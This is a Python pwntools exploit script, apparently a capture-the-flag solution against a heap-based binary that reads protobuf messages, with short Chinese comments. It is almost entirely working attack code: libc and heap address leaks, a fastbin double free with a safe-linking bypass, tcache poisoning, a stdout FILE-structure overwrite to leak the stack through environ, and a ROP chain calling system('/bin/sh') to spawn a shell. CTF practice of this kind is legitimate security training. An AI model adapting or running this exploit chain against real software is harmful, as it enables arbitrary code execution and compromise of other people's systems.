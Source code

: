 ```python
def clean(msg):
    d = devicemsg_pb2.devicemsg()
    d.whatcon=msg
    d.whattodo=0
    d.whatidx=0
    d.whatsize=0x20
    d.whatsthis=0x20
    p.sendafter("WHAT DO YOU WANT?",d.SerializeToString())

#泄露libcbase
dbg()
for i in range(9):
    add(i,b"a"*8)
show(0)
p.recvuntil(b'a'*8)
libcbase = u64(p.recvuntil("\x7f")[-6:].ljust(0x8,b"\x00")) - 0x219ce0 - 0x1000
print(hex(libcbase))

#泄露heapbase
delete(0)
show(0)
p.recvuntil("Content:")
heapbase = u64(p.recv(5).ljust(0x8,b"\x00")) * 0x1000 - 0x2000
print(hex(heapbase))

#fastbin double free
for i in range(6):
    delete(i+1)
delete(7)
delete(8)
delete(7)
for i in range(7):
    add(i,b"a"*0x8)
environ = libcbase+libc.sym['environ']
stdout = libcbase+libc.sym['_IO_2_1_stdout_']
#ck7->ck8->ck7
add(7,p64((heapbase+0xf0) ^((heapbase+0x4e40)>>12)))
#ck8->ck7->heapbase+0xf0   
add(8,b"AAAAAA")
add(8,b"A")
#0xf0 tcache chunk被改为heapbase+0x10
add(8,p64(0)+p64(heapbase+0x10))

#msg是在堆上的,可以通过msg来给堆上数据赋值
#通过stdout泄露stack
payload=( (p16(0)*2+p16(1)+p16(1)).ljust(0x10,b"\x00")+p16(1)+p16(1) ).ljust(0x90,b'\x00')
payload+=p64(stdout)+p64(heapbase+0x9000)+p64(0)*5+p64(heapbase+0x10)
payload=payload.ljust(0xe0,b"\x00")
clean(payload)
clean(p64(0xFBAD1800)+p64(0)*3+p64(environ)+p64(environ+8))
stack = u64(p.recvuntil("\x7f")[-6:].ljust(0x8,b"\x00")) - 0x1a8 + 0x40
print(hex(stack))

#0xb0的tcache chunk一开始也是被写入heapbase+0x10  getshell
pop_rdi = libcbase+0x000000000002a3e5 
system = libc.sym['system'] + libcbase
binsh = libcbase+0x1D8678
ret = 0x000000000002a3e6 + libcbase
payload=((p16(0)*2+p16(0)+p16(0)+p16(1)).ljust(0x10,b"\x00")+p16(1)+p16(1)).ljust(0x90,b'\x00')
payload+=p64(0)+p64(0)+p64(stack)
payload=payload.ljust(0xa0,b"\x00")
clean(payload)
clean((p64(ret)*2+p64(pop_rdi)+p64(binsh)+p64(system)).ljust(0x58,b"\x00"))
```